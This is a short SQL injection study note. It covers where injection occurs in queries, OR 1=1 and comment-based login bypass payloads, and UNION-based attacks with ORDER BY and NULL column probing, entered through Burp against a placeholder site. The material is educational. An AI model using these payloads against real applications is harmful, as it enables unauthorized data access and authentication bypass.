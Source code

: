 An vulnerability that makes an attacker to modify a sql query which the application provides to database.

The common places in queries for sql injection:
INSERT query - Value attribute

UPDATE query - WHERE values

SELECT query - table name or col name

SELECT query -ORDER BY clause

### Sample Injection :  OR 1=1--

```perl
https://insecure-website.com/products?category=Gifts'+OR+1=1--

-> causes

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND condition

In burp we need to put 
category = 'Gifts'+OR+1=1+--
-> + acts as separator of values primarily and as white space secondarily.
```

Provides data from all categories,  and don’t consider the condition

### Can avoid password with this query :

```perl
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Query : (In burp)

username=administrator'+--
```

### SQL Injection : Union Attacks

Sometimes results of sql query are returned with application’s ui responses, here we can get data from other table in same database using UNION keyword of sql query.

```perl
SELECT a, b FROM table1 UNION SELECT c, d FROM table2

-> The number of columns on both table should be same and the datatypes of columns 
	 should be same.
```

We can find the number of columns of the db which parses the sql query by using “Order BY” clause.

```perl
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --
```

When the web’s response differs from normal output/response, we can understand it is the limit of columns in the table. But here we will get http response, which may become blank/no output at some time due to db’s result. For this we use the alternative “ ‘ UNION SELECT NULL, NULL —

The thing is null will match with any data types of the column, and in maximum cases the response won’t be blank but will just add one extra row of null values with tables values to output.

```perl
'+UNION+SELECT+NULL,+NULL+--

-> in queries and remove all default values of the parameters, correct number of nulls 
will give 200 status code.

```

